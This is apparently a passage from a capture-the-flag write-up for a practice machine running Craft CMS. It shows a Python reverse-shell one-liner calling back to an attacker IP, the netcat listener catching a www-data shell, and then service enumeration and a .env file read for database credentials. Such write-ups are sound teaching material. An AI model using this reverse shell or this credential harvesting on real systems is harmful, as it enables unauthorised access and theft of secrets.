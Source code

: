 ```bash
> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xx.xx.xx",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
> nc -lvnp 1234
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [10.10.11.245] 50966
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

After stablising the shell, we are ready to go.

## Escalating privileges and obtaining user flag

### Database & dead end

The target machine runs MariaDB database:

```bash
www-data@surveillance:~/html/craft/web$ systemctl list-units --type=service
  UNIT                               LOAD   ACTIVE SUB     DESCRIPTION         >
  apparmor.service                   loaded active exited  Load AppArmor profil>

  ... SNIP ...

  lvm2-pvscan@8:3.service            loaded active exited  LVM event activation>
  mariadb.service                    loaded active running MariaDB 10.6.12 data>
  ModemManager.service               loaded active running Modem Manager

  ... SNIP ...
```

Under `/var/html/craft` there is `.env` file which reveals credentials to the database

```bash
www-data@surveillance:~/html/craft$ cat .env
# Read about configuration, here:
# https://craftcms.com/docs/4.x/config/

# The application ID used to to uniquely store session and cache data, mutex locks, and more
CRAFT_APP_ID=CraftCMS--070c5b0b-ee27-4e50-acdf-0436a93ca4c7

# The environment Craft is currently running in (dev, staging, production, etc.)
CRAFT_ENVIRONMENT=production

# The secure key Craft will use for hashing and encrypting data
CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_

# Database connection settings
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=C*******************!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

# General settings (see config/general.php)
DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false
```